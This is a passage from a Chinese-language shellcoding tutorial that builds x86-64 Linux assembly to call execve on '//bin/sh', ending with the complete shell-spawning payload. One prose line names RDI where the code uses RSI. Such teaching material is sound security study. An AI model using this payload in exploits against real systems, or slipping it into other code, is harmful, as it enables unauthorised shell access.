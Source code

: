 让我们将 RSP 移动到 RDI 寄存器，以获取我们的第一个参数：

```
mov rdi, rsp
```

现在，我们需要推入另一个`NULL`作为字符串分隔符，然后我们需要通过推入 RDI 内容（即我们字符串的地址）将一个指针推入堆栈。然后，我们将堆栈指针移动到 RDI 寄存器，以获取第二个参数：

```
push rax
push rdi 
mov rsi,rsp 
```

现在，所有我们的参数都准备好了；让我们获取`execve`系统调用号：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep execve
```

上一个命令的输出显示在以下截图中：

![](img/00201.jpeg)

`execve`系统调用号是`59`：

```
add rax, 59
syscall
```

让我们把我们的代码放在一起：

```
global _start

section .text

_start:
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```
